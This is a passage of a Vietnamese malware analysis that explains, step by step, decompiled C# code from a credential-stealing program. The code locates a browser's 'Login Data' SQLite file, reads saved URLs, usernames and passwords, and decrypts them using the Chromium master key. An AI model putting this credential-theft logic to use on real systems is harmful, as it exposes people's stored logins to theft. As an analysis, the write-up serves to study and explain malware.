 ```csharp
      MozilSpeed.SeaMonkey();
      MozilSpeed.IceDragon();
      MozilSpeed.Thunderbird();
      COVIDPickers.FileZilla_Speed();
      COVIDPickers.WindowsKey_Speed();
    }
```

Các function đều có mục đích lấy cắp thông tin đăng nhập (username và password) được lưu trữ trong các trình duyệt. Ta sẽ phân tích từng phần:
- Xây dựng đường dẫn đến tệp `Login Data` của trình duyệt, nơi lưu trữ thông tin đăng nhập 

```csharp
string str1 = Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\Kinza\\User Data\\Default\\Login Data";

```
- Nếu tệp không tồn tại, function sẽ dừng lại 

```csharp!
if (!File.Exists(str1))
    return;
```

- Mở file SQLite và đọc bảng `logins` - bảng này chứa các thông tin các tài khoản đã lưu

```csharp!
SQLiteHandler sqLiteHandler = new SQLiteHandler(str1);
sqLiteHandler.ReadTable("logins");
```

- Đếm số lượng dòng trong bảng logins và duyệt qua từng dòng để lấy dữ liệu

```csharp!
int num = checked (sqLiteHandler.GetRowCount() - 1);
int row_num = 0;
while (row_num <= num)
```
- Chứa thông tin `URL`, `username`, `password`

```csharp!
string str2 = sqLiteHandler.GetValue(row_num, "origin_url");
string Left = sqLiteHandler.GetValue(row_num, "username_value");
string str3 = sqLiteHandler.GetValue(row_num, "password_value");
```


- Giải mã mật khẩu `password`
    - `COVIDPicker.isV10()` kiểm tra xem `str3` (password) có được mã bằng **Chromium V10 (AES-256 GCM)** hay không:
       - Nếu có thì lấy `masterKey` rồi giải mã mật khẩu
       - Nếu không sử dụng phương pháp khác để giải mã 

```csharp!
if (COVIDPickers.isV10(str3))
          {
            byte[] masterKey = COVIDPickers.GetMasterKey(Directory.GetParent(str1).Parent.FullName);
            if (masterKey != null)
              str3 = COVIDPickers.DecryptWithKey(Encoding.Default.GetBytes(str3), masterKey);
          }
          else
            str3 = COVIDPickers.Decrypttttt(Encoding.Default.GetBytes(sqLiteHandler.GetValue(row_num, "password_value")));
```
